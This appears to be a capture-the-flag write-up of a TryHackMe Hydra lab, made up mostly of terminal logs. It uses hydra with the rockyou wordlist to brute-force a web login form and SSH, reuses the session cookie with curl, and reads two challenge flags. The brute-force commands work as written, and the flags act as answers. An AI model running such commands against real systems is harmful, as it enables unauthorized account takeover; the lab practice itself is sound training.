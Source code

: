 # 10.201.106.187

hydra -l <username> -P <wordlist> 10.201.106.187 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

![](https://velog.velcdn.com/images/agnusdei1207/post/b6adca47-7371-4867-aec6-80b0e34434f0/image.png)

──(root㉿docker-desktop)-[/]
└─# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-25 15:00:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.201.106.187:80/login:username=^USER^&password=^PASS^:Your username or password is incorrect.
[80][http-post-form] host: 10.201.106.187 login: molly password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-25 15:00:43

# curl -X POST http://10.201.106.187/login -d "username=molly&password=sunshine" -L -c -v cookies.txt

┌──(root㉿docker-desktop)-[/]
└─# curl -X POST http://10.201.106.187/login -d "username=molly&password=sunshine" -L -c -v cookies.txt
Note: Unnecessary use of -X or --request, POST is already inferred.

- Trying 10.201.106.187:80...
- Connected to 10.201.106.187 (10.201.106.187) port 80
- using HTTP/1.x
  > POST /login HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
  > Content-Length: 32
  > Content-Type: application/x-www-form-urlencoded
- upload completely sent off: 32 bytes
  < HTTP/1.1 302 Found
  < X-Powered-By: Express
- Need to rewind upload for next request
  < Location: /
  < Vary: Accept
  < Content-Type: text/plain; charset=utf-8
  < Content-Length: 23
  < Date: Thu, 25 Sep 2025 15:04:18 GMT
  < Connection: keep-alive
- Ignoring the response-body
- setting size while ignoring
  <
- Connection #0 to host 10.201.106.187 left intact
- Issue another request to this URL: 'http://10.201.106.187/'
- Stick to POST instead of GET
- Re-using existing http: connection with host 10.201.106.187
  > POST / HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 404 Not Found
  < X-Powered-By: Express
  < Content-Security-Policy: default-src 'none'
  < X-Content-Type-Options: nosniff
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 140
  < Date: Thu, 25 Sep 2025 15:04:19 GMT
  < Connection: keep-alive
  <
  <!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="utf-8">
  <title>Error</title>
  </head>
  <body>
  <pre>Cannot POST /</pre>
  </body>
  </html>
- Connection #0 to host 10.201.106.187 left intact

# 쿠키 확보 -> connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA

# cat cookie.txt

# curl http://10.201.106.187/ -b "connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA" -v

# curl http://10.201.106.187 -b cookies.txt -v

┌──(root㉿docker-desktop)-[/]
└─# curl http://10.201.106.187 -b cookies.txt -v

- Trying 10.201.106.187:80...
- Connected to 10.201.106.187 (10.201.106.187) port 80
- using HTTP/1.x
  > GET / HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 200 OK
  < X-Powered-By: Express
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 856
  < ETag: W/"358-ZUlnMFSQKTY8/4+sv52YQFGK7I4"
  < Date: Thu, 25 Sep 2025 15:06:38 GMT
  < Connection: keep-alive
  <
  <!doctype html>
  <html lang="en">
    <head>
      <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <link rel="stylesheet" href="/css/bootstrap.min.css">
  <title>Hydra Challenge</title>

    </head>
    <style>
      .jumbotron {
        background-image: url(/img/background.jpg);
        color: white;
        object-fit: cover;
        height: 100vh;
        margin: 0;
        border-radius: 0;
      }
      h1 {
        position: absolute;
        left: 50px;
        top: 50px;
        font-weight: bold;
        font-size: 50px;
      }
    </style>
    <body>

      <div class="jumbotron text-center">
        <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
      </div>

      <script src="/js/jquery.slim.min.js"></script>
      <script src="/js/popper.min.js"></script>
      <script src="/js/bootstrap.min.js"></script>

    </body>
  </html>

- Connection #0 to host 10.201.106.187 left intact

> hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.201.106.187 -t 4
> hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 -t 4 ssh

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-26 15:23:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.201.106.187:22/
[22][ssh] host: 10.201.106.187 login: molly password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-26 15:23:37

![](https://velog.velcdn.com/images/agnusdei1207/post/5f8f9b50-2ea5-4c89-803c-36876f8de76c/image.png)

> ssh molly@10.201.106.187

┌──(root㉿docker-desktop)-[/]
└─# ssh molly@10.201.106.187
The authenticity of host '10.201.106.187 (10.201.106.187)' can't be established.
ED25519 key fingerprint is SHA256:o+KrIwA4fu2ZLvn6K+ivm/ebLoxmxWjs3E+vfs2Xvug.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.201.106.187' (ED25519) to the list of known hosts.
molly@10.201.106.187's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1083-aws x86_64)

- Documentation: https://help.ubuntu.com
- Management: https://landscape.canonical.com
- Support: https://ubuntu.com/pro

System information as of Fri 26 Sep 2025 03:28:38 PM UTC

System load: 0.0 Processes: 108
Usage of /: 18.3% of 14.47GB Users logged in: 0
Memory usage: 18% IPv4 address for ens5: 10.201.106.187
Swap usage: 0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

7 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-201-106-187:~$

Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-201-106-187:~$ ls
flag2.txt
molly@ip-10-201-106-187:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
molly@ip-10-201-106-187:~$
